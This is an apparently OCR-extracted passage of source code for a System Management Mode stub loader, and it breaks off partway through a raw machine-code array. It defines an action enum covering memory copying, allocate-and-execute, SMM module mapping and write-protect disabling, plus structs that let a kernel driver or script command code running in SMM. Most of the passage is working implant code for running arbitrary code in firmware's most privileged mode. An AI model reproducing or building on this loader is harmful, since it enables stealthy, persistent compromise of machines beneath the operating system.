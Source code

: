 The stub loader will read a struct at a static memory address (0x600). 

<div class="example">
</div>
```
typedef enum _ACTION {
  COPY_RAW_MEM = 0x1,
  ALLOCATE_COPY_DATA,
  ALLOCATE_COPY_EXECUTE,
  MAP_SMM_MODULE,
  UNMAP_SMM_MODULE,
  SMM_MODULE_EXEC,
  CALL,
  DISABLE_WP,
  ENABLE_WP,
  RESERVED1,
  RESERVED2,
  RESERVED3,
  PING = 0xF
} ACTION;

#pragma pack(push, 1)
typedef struct _COMBUFF {
  void* source;
  void* dest;
  unsigned int size;
  unsigned long long status;
  unsigned int action;
} COMBUFF, * PCOMBUFF;
#pragma pack(pop)

#pragma pack(push, 1)
typedef struct _CONFIG {
  PCOMBUFF CommBuffer; # (say, 0x700)
  __EFI_SMM_SYSTEM_TABLE2* SMST;
  UINT64 SMRT;
  UINT64 SMBase;
  UINT64 DispatchFunction;
  UINT64 MemCpy;
  UINT64 NativeExecute;
  ...
} CONFIG, * PCONFIG;
#pragma pack(pop)
```

The `CONFIG` struct provides a way for a kernel driver (or Python script) to interact with the code in SMM. It also passes a pointer to SMST, allowing the stub to use the native edk2 function to allocate pages.

<div class="example">
</div>
```
STUB_LOADER = [
        b'\x40', b'\x57', b'\x48', b'\x83', b'\xEC', b'\x20', b'\xBF', b'\x00',
        b'\x05', b'\x00', b'\x00', b'\x48', b'\x8B', b'\x07', b'\x48', b'\x85',
        b'\xC0', b'\x0F', b'\x84', b'\xC0', b'\x00', b'\x00', b'\x00', b'\x48',
        b'\x8B', b'\x14', b'\x25', b'\x20', b'\x05', b'\x00', b'\x00', b'\x48',
        b'\x85', b'\xD2', b'\x74', b'\x09', b'\x8B', b'\xCF', b'\xFF', b'\xD2',
        b'\xE9', b'\xAA', b'\x00', b'\x00', b'\x00', b'\x48', b'\xC7', b'\x40',
        b'\x14', b'\xFF', b'\x00', b'\x00', b'\x00', b'\x48', b'\x8B', b'\x07',
        b'\x48', b'\x83', b'\x38', b'\x00', b'\x0F', b'\x84', b'\x8D', b'\x00',
        b'\x00', b'\x00', b'\x83', b'\x78', b'\x10', b'\x01', b'\x0F', b'\x82',
        b'\x83', b'\x00', b'\x00', b'\x00', b'\x4C', b'\x8B', b'\x14', b'\x25',
        b'\x08', b'\x05', b'\x00', b'\x00', b'\x4D', b'\x85', b'\xD2', b'\x75',
        b'\x0A', b'\x48', b'\xC7', b'\x40', b'\x14', b'\xFD', b'\x00', b'\x00',
```